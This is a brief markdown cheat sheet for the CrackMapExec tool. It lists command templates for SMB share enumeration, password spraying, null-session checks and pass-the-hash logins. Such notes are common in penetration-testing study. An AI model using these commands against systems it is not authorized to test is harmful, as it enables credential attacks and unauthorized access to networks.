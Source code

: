# CrackMapExec
[URL] (https://github.com/byt3bl33d3r/CrackMapExec)

## Enumerate SMB Shares
```
[Enumerated SMB Shares] $crackmapexec smb <ip address> --shares -u <username> -p <password>
```

## Password Spray Users
```
[Password Spary User List and Password] $crackmapexec smb <ip address> -u <users.lst> -p <password> --continue-on-success
```

## Null Session
```
crackmapexec smb <target(s)> -u '' -p ''
```

# Pass the Hash
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```
